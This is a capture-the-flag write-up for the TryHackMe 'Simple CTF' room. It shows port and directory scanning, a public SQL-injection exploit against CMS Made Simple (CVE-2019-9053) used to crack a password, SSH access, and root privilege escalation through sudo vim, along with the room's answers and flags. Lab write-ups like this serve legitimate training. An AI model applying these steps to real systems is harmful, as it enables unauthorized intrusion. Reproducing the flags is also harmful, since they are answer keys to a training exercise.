 ```yaml
---
layout: post
title: Simple CTF
date: 2022-12-30 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Simple CTF] is an easy CTF on TryHackMe that showcases scanning and enumeration, research, exploitation, and privilege escalation wich are some basics skills needed in CTF.

![simple](https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png)



---

Let's start scaning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![Scan](/images/THM/simplectf/Captura.PNG)

We can see there are 3 ports open, 21(ftp), 80(http), 2222(ssh).

- How many services are running under port 1000?
>Answer: 2

- What is running on the higher port?
>Answer: ssh

If we move to the web page, we can see the Apache2 Default page.

![Web](/images/THM/simplectf/Captura2.PNG)

Let's scan the page with **gobuster**.

```sh
gobuster dir -u <URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t <threads> -x <extensions>
```

![WebScan](/images/THM/simplectf/Captura3.PNG)

We can see there are 3 results

Let's move on to every page


![robots](/images/THM/simplectf/Captura4.PNG)

In **robots.txt**  there are nothing interesting but in the **simple** directory we can see a web page with the CMS **Made simple**.


![CMS](/images/THM/simplectf/Captura5.PNG)

If we look the version in the footer, we can see that the page is in the version 2.2.8.

![Version](/images/THM/simplectf/Captura6.PNG)

So making a little search about the cms and the version, we can see there is an CVE and one [exploit] for it.


![cve](/images/THM/simplectf/Captura7.PNG)

- What's the CVE you're using against the application?
>Answer: CVE-2019-9053

The CVE explains there is an issue and is it possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based **SQL injection** via the m1_idlist parameter.

- To what kind of vulnerability is the application vulnerable?
>Answer: sqli

```sh
python2 46635.py
```

![exploit](/images/THM/simplectf/Captura8.PNG)

```sh
python2 46635.py -u <URL> --crack -w /usr/share/wordlists/rockyou.txt
```

![exploit2](/images/THM/simplectf/Captura9.PNG)

Let's run it and see what we get.

![results](/images/THM/simplectf/Captura10.PNG)

Et voila! We already have the credentials!

- What's the password?
>Answer: secret

Time to get into the machine with the credentials we've found.

```sh
ssh mitch@<IP> -p 2222

python -c 'import pty;pty.spawn("<shell>")'
```

![ssh](/images/THM/simplectf/Captura11.PNG)

- Where can you login with the details obtained?
>Answer: ssh

If we show the actual directory, we can see there is a file called user.txt. In it, we can found the user flag.

```sh
ls
cat user.txt
```

![userflag](/images/THM/simplectf/Captura12.PNG)

- What's the user flag?
>Answer: G00d j0b, keep up!

For see if there is other user, we list the /home/ directory, and we found the user sunbath.

```sh
ls /home/
```

![user](/images/THM/simplectf/Captura13.PNG)

- Is there any other user in the home directory? What's its name?
>Answer: sunbath

To finish the machine, we need to do the privileges escalation, and if we run **sudo -l** we can see that the **vim** binary can be executed with root privileges without password.

Knowing this, we can go to [GTFO] and search how to make this escalation with vim binary.

```sh
sudo -l
sudo vim -c ':!<shell>'
```

![sudo](/images/THM/simplectf/Captura14.PNG)

- What can you leverage to spawn a privileged shell?
>Answer: vim

```sh
cd /root
ls
cat root.txt
```

![rootflag](/images/THM/simplectf/Captura15.PNG)

- What's the root flag?
>Answer: W3ll d0n3. You made it!

 [Simple CTF]: https://tryhackme.com/room/easyctf
 [GTFO]:https://gtfobins.github.io/
 [exploit]:https://www.exploit-db.com/exploits/46635
